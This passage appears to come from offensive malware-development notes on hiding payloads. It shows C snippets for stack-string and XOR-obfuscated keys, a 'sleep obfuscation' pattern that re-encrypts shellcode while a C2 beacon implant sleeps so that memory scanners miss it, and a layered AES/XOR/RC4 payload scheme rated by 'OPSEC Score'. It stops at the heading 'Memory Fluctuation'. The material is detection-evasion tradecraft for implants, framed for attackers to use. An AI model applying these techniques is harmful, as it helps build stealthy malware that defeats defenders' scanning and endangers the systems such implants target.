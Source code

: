 **Stack String Key**:
```c
char key[17];
key[0] = 'S'; key[1] = 'e'; key[2] = 'c';
key[3] = 'r'; key[4] = 'e'; key[5] = 't';
key[6] = 'K'; key[7] = 'e'; key[8] = 'y';
key[9] = '1'; key[10] = '2'; key[11] = '3';
key[12] = '4'; key[13] = '5'; key[14] = '6';
key[15] = '7'; key[16] = '\0';
```

**XOR-Encoded Key**:
```c
BYTE encKey[] = { 0x12, 0x34, 0x56, 0x78 };
BYTE xorVal = 0xAA;
for (int i = 0; i < sizeof(encKey); i++) {
    encKey[i] ^= xorVal;
}
```

## Memory Encryption Patterns

### 1. Decrypt-Execute-Encrypt (Sleep Obfuscation)

**Pattern**: Decrypt shellcode before execution, re-encrypt when sleeping.

**Use Case**: Long-running implants (C2 beacons)

**Advantage**: Shellcode encrypted in memory during sleep (evades memory scanning)

**Code Pattern**:
```c
// Before sleep
RC4_Crypt(S, shellcode, shellcodeLen);
Sleep(60000); // Encrypted during sleep

// After sleep
RC4_Crypt(S, shellcode, shellcodeLen); // Decrypt again
ExecuteShellcode();
```

### 2. Layered Encryption

**Pattern**: Multiple encryption layers with different keys.

**Example**:
```
Payload → AES Encrypt (Key1) → XOR (Key2) → RC4 Encrypt (Key3)
```

**Advantage**: Even if one layer is broken, payload remains protected

**OPSEC Score**: 9/10

### 3. Memory Fluctuation
